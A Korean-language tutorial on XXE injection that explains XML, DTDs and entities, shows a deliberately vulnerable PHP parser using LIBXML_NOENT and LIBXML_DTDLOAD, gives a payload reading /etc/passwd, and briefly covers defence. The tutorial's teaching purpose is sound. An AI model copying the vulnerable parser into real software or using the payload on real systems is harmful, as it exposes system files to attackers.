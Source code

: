 * 이론
** XXE (XML eXternal Entity) Injection 이란?
XML의 DTD의 외부 Entity 참조기능을 악용하여 중요 파일 열람, DOS등의 행위를 시도하는
공격임. 

** 사례
구글, 페이스북등 세계적인 회사들의 서버에서도 취약점이 발견된 적이 있다. 

페이스북 XXE 취약점
https://threatpost.com/xxe-bug-patched-in-facebook-careers-third-party-service/110151/

구글 XXE 취약점
http://securityaffairs.co/wordpress/23943/hacking/hacking-google-server-with-xml.html

워드프레스 XXE 취약점
https://packetstormsecurity.com/files/121492/wpadvancedxml-xxe.txt

또한 관련된 취약점을 CVE 데이터베이스에서 찾아보면 엄청나게 많은 것을 알 수 있다. 

http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=xxe 



** XML?
데이터 교환용의 마크업 언어
#+BEGIN_SRC xml
<recipe>
<title>스푼위의 피넛버퍼</title>
<ingredientlist>
<ingredient>피넛버터</ingredient>
</ingredientlist>
<preparation>
스푼을 잡고 피넛버터 단지에 넣은 후, 피넛버터를 한 숟갈 덜어낸다. 
</preparation>
</recipe>
#+END_SRC

XHTML, RSS, XML-RPC, SOAP 등 많은 곳에 사용된다.

** DTD?
Document Type Definition 의 약자로 XML문서에 사용될 구성요소를 정의해 놓은 것이다.
위의 XML에서 recipe, title 등의 구성요소를 사용할 수 있다고 정의해놓은 것이 DTD이다.

** 엔터티?
XML에서 데이터를 참조하기 위한 방법. DTD에서 ENTITY라는 키워드를 사용해서 정의한다.
그리고 XML본문에서 참조하여 사용한다. 
일반 엔터티 참조는 &로 시작하여 ;으로 끝난다.


** 어떻게 공격이 가능한가?
DTD 문법에는 외부 엔터티를 정의할 수 있는 기능이 있다. 외부 엔터티는 문서 외부에 존재하는
값(파일이나 URL등)을 문서 내에서 보여주기 위한 기능이다. 
이 외부 엔티티는 SYSTEM 이라는 키워드를 이용해서 사용가능하다. 
이 외부 엔티티에 중요 파일을 지정할 경우 그 값이 노출된다. 

* 검증

** 구동환경
구동환경은 다음과 같다. 최신의 환경으로 세팅하였다. 

php 7.0

php-xml
 
Apache2



** 공격 대상 PHP 페이지
다음은 취약점을 갖고 있는 PHP 페이지 코드이다. 
입력받은 XML 문자열을 파싱한 결과를 출력해주는 간단한 기능을 가지고 있다. 
#+BEGIN_SRC php
<html>
	<body>
<?php

$xml = $_POST['xml'];
if ($xml){
	echo "input length: ".strlen($_POST['xml']);
	echo '<br>';
	$dom = new DOMDocument();
	$dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
	$doc = simplexml_import_dom($dom);
	
	}
?>
	<h1> Vulnerable XML Parser</h1>
	<form action="index.php" method='post'>
		<textarea name="xml" rows="12" cols="100"></textarea>
		<br>
		<input type="submit" size="55">
		<br>
		<?php echo $doc->testing; ?>
	 </form>
	</body>
</html>
#+END_SRC


** 정상문자열

#+BEGIN_SRC xml
<!DOCTYPE test
[<!ENTITY foo "xml external entity">]>
<test><testing>&foo;</testing></test>
#+END_SRC

DTD에서 foo라는 이름의 엔티티를 정의하였고, 
XML에서는 foo의 값을 출력하게 되어있다. 

이 XML 문자열을 입력한 결과는 다음과 같다.  


** 공격문자열

#+BEGIN_SRC xml
<!DOCTYPE test
[<!ENTITY foo SYSTEM "file:///etc/passwd">]>
<test><testing>&foo;</testing></test>
#+END_SRC

foo의 값을 SYSTEM "file:///etc/passwd" 로 변경되었다. 
그 결과 다음과 같이 시스템 파일이 노출된다. 

* 방어방법
XML을 파싱할 때 외부 참조를 허용하지 않는다. 

** 관련 PHP 플래그의 의미
LIBXML_NOENT : XML을 파싱할 때 엔터티 참조를 허용한다. (외부/내부 모두)
LIBXML_DTDLOAD :외부 참조 DTD 서브셋을 로드

* 참고자료
http://hyunmini.tistory.com/66

https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection

https://ko.wikipedia.org/wiki/XML

https://en.wikipedia.org/wiki/Document_type_definition

http://php.net/manual/en/domdocument.loadxml.php

http://php.net/manual/en/libxml.constants.php

http://php.net/manual/en/language.operators.bitwise.php

http://stackoverflow.com/questions/38807506/what-does-libxml-noent-do-and-why-isnt-it-called-libxml-ent


